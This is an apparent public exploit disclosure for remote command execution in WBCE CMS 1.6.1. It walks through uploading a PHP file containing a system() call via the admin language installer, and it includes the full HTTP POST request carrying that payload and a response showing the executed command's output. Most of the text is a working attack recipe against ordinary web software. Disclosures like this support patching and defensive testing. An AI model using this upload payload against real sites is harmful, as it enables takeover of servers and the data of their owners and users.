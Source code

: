 ## Exploit Title: WBCE CMS Version 1.6.1 Remote Command Execution

- **Date:** 30/11/2023
- **Exploit Author:** tmrswrr
- **Vendor Homepage:** [WBCE CMS](https://wbce-cms.org/)
- **Software Link:** [WBCE CMS 1.6.1](https://github.com/WBCE/WBCE_CMS/archive/refs/tags/1.6.1.zip)
- **Version:** 1.6.1

<img src="https://raw.githubusercontent.com/capture0x/WBCE_CMS/main/1.png" alt="WBCE_CMS Image" width="1000">

<img src="https://raw.githubusercontent.com/capture0x/WBCE_CMS/main/2.png" alt="WBCE_CMS Image" width="1000">


### POC:

1. Login with admin credentials and click on Add-ons.
2. Navigate to Language > Install Language > [Installation Link](https://demos6.softaculous.com/WBCE_CMSgn4fqnl8mv/admin/languages/index.php).
3. Upload `upgrade.php` with the content `<?php echo system('id'); ?>`, then click install > [Install Link](https://demos6.softaculous.com/WBCE_CMSgn4fqnl8mv/admin/languages/install.php).
4. The command execution result will be displayed: 

uid=1000(soft) gid=1000(soft) groups=1000(soft)
uid=1000(soft) gid=1000(soft) groups=1000(soft)



### Post Request:

```http
POST /WBCE_CMSgn4fqnl8mv/admin/languages/install.php HTTP/1.1
Host: demos6.softaculous.com
Cookie: [cookie values]
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://demos6.softaculous.com/WBCE_CMSgn4fqnl8mv/admin/languages/index.php
Content-Type: multipart/form-data; boundary=---------------------------86020911415982314764024459
Content-Length: 522
Origin: https://demos6.softaculous.com
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------86020911415982314764024459
Content-Disposition: form-data; name="formtoken"

5d3c9cef-003aaa0a62e1196ebda16a7aab9a0cf881b9370c
-----------------------------86020911415982314764024459
Content-Disposition: form-data; name="userfile"; filename="upgrade.php"
Content-Type: application/x-php

<?php echo system('id'); ?>

-----------------------------86020911415982314764024459
Content-Disposition: form-data; name="submit"


-----------------------------86020911415982314764024459--```

### Response:

```<!-- ################### Up from here: Original Code from original template ########### -->

<!-- senseless positioning-table: needed for old modules which base on class td.content -->
<div class="row" style="overflow:visible">
<div class="fg12">
<table id="former_positioning_table">
<tr>
    <td class="content">
uid=1000(soft) gid=1000(soft) groups=1000(soft)
uid=1000(soft) gid=1000(soft) groups=1000(soft)
    <div class="top alertbox_error fg12 error-box">
        <i class=" fa fa-2x fa-warning signal"></i>

                    <p>Invalid WBCE CMS language file. Please check the text file.</p>
        
                    <p><a href="index.php" class="button">Back</a></p>```

